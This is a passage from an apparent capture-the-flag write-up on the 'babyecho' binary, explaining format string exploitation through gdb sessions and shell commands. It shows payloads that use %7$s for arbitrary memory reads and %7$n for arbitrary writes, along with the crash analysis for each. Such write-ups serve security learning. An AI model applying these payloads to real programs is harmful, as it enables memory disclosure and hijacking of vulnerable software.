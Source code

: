 ```
(gdb) <span class="in">x/i $eip</span>
=> 0x807f134:   repnz scas al,BYTE PTR es:[edi]
(gdb) <span class="in">print/x $edi</span>
$1 = 0x41414141

<p>We determine that it crashed while trying to read edi, which is 0x41414141. And we can use any address we want - for example, I grabbed a random string from IDA - 0x080C1B94 - so let's encode that in little endian and use it:</p>

$ <span class="in">echo -e '\x94\x1b\x0c\x08%7$s' | ./babyecho</span>
Reading 13 bytes
../sysdeps/unix/sysv/linux/getcwd.c

<p>It prints out the string! If I really want to, I can chain together a few:</p>

$ <span class="in">echo -e '\x06\x1d\x0c\x08%7$s\n\x1f\x1d\x0c\x08%7$s\n' | ./babyecho</span>
Reading 13 bytes
buffer overflow detected
Reading 13 bytes
stack smashing detected

<p>It didn't really detect any of those, of course - I'm just printing out those strings for fun :)</p>
<h2>Arbitrary memory write</h2>
<p>That's an arbitrary memory read. And as a side effect, we've also bypassed ASLR if that's applicable (in this level, it's not really).</p>
<p>Now let's go back to our code that tried to read 0x41414141 ("AAAA%7$s") and change the %..s to a %..n:</p>

$ <span class="in">ulimit -c unlimited</span>
$ <span class="in">echo -e 'AAAA%7$n' | ./babyecho</span>
Reading 13 bytes
Segmentation fault (core dumped)

<p>no surprise there.. let's see what happened:</p>

$ <span class="in">gdb -q ./babyecho ./core</span>
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x08080c2a in ?? ()
(gdb) <span class="in">x/i $eip</span>
=> 0x8080c2a:   mov    DWORD PTR [eax],ecx
(gdb) <span class="in">print/x $eax</span>
$1 = 0x41414141
(gdb) <span class="in">print/x $ecx</span>
$2 = 0x4

<p>So it crashed while trying to write 0x4 - a value we sort of control - into 0x41414141 - a value we totally control.</p>
<p>Of course, writing the value 0x4 every time is boring, but we can change to anything - let's try to make it 0x80:</p>

$ <span class="in">echo -e 'AAAA%124x%7$n' | ./babyecho</span>
Reading 13 bytes
AAAA                                                                                                                           d%
Reading 13 bytes

Reading 13 bytes

<p>Uh oh! What happened?</p>
<p>Unfortunately, that string is one byte too long, which means the %n isn't getting hit. We need to deal with this pesky length problem!</p>
<h2>Making it longer</h2>
```
